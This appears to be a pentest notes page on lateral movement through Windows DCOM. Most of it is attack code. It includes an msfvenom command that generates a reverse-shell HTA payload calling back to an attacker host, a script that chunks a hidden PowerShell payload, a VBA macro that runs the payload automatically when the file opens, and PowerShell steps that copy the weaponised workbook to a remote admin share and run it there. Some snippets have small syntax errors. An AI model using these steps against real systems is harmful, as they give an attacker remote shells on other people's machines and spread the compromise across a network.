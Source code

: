 # DCOM

## Distributed Component Object Model (DCOM)

DCOM allows a computer to run programs over the network on a different computer e.g. Excel/PowerPoint/Outlook

Important:

* It requires RPC port 135 and local admin access to call the DCOM Service Control Manager (API).
* The `run` method within DCOM allows us to execute a VBA macro remotely.

Create a reverse shell payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=[kali] LPORT=4444 -f hta-psh -o evil.hta
```

Split payload into smaller chunks starting with:

```python
str = "powershell.exe -nop -w hidden -e {base64_encoded_payload}"
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'
```

Create a VBA macro and insert it into Excel file:

```vba
Sub AutoOpen()
    exploit
End Sub
Sub Document_Open()
    exploit
End Sub
Sub exploit()
        Dim str As String
        {insert_payload_here}
        # OPTION 1
        Shell (Str)                    
        # OPTION 2
        # CreateObject("Wscript.Shell").Run str
End Sub
```

Check if the document contains a valid exploit macro:

```shell
$ mraptor [exploit.doc]
```

> **Now is time for the Dropper**: Copy file to the remote target and execute the payload!

Create an instance of the object `Excel.Application`:

```powershell
$com [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "[target_workstation]"))
```

Copy the Excel file containing the VBA payload to target machine:

```powershell
$LocalPath = "C:\Users\[user]\badexcel.xls
$RemotePath = "\\[target]\c$\badexcel.xls
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

Create a SYSTEM profile, this is required as part of the opening process:

```powershell
$path = "\\[target]\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
```

Open the Excel file and execute the macro:

```vba
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```
